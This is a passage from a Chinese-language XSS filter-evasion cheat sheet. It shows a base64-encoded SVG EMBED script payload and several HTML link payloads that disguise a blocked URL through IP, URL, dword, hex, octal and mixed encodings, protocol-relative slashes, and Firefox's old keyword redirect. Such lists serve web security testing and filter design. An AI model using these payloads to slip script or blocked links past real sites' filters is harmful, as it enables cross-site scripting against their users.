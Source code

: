 	该示例只在FireFox下有效，但是比上面的攻击向量在FireFox下好，因为不需要用户安装或启用FLASH

	```html
	<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
	```

- URL字符绕过

	假设"http://www.google.com/"是不被允许的：

	- IP代替域名

	```html
	<A HREF="http://66.102.7.147/">XSS</A>
	```

	- URL编码

	```html
	<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>
	```

	- 双字节编码（注意，还有另一种双字节编码）
	
	```html
	<A HREF="http://1113982867/">XSS</A>
	```

	- 十六进制编码（每个数字的允许的范围大概是240位字符，就如你在第二位上看到的，并且由于十六进制是在0到F之间，所以开头的0可以省略:）

	```html
	<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>
	```

	- 八进制编码（又一次允许填充，尽管你必须保证每类在4位字符以上-例如A类，B类等等:）

	```html
	<A HREF="http://0102.0146.0007.00000223/">XSS</A>
	```

	- 混合编码（让我们混合基本编码并在其中插入一些TAB和换行，虽然不知道浏览器为什么允许这样做。TAB和换行只有被引号包含时才有效）

	```html
	<A HREF="h
	tt	p://6	6.000146.0x7.147/">XSS</A>
	```

	- 协议解析绕过` // 替代 http:// 可以节约很多字节.当输入空间有限时很有用(少两个字符可能解决大问题) 而且可以轻松绕过类似"(ht|f)tp(s)?://"的正则过滤(感谢Ozh提供这部分).你也可以将"//"换成"\\"。你需要保证斜杠在正确的位置，否则可能被当成相对路径URL`

	```html
	<A HREF="//www.google.com/">XSS</A>
	```

	- Google的`feeling lucky`功能1 `Firefox使用Google的"feeling lucky"功能根据用户输入的任何关键词来将用户重定向。如果你存在漏洞的页面在某些随机关键词上搜索引擎排名是第一的，你就可以利用这一特性来攻击FireFox用户。这使用了Firefox的"keyword:"协议。你可以像下面一样使用多个关键词"keyword:XSS+RSnake"。这在Firefox2.0后不再有效.`
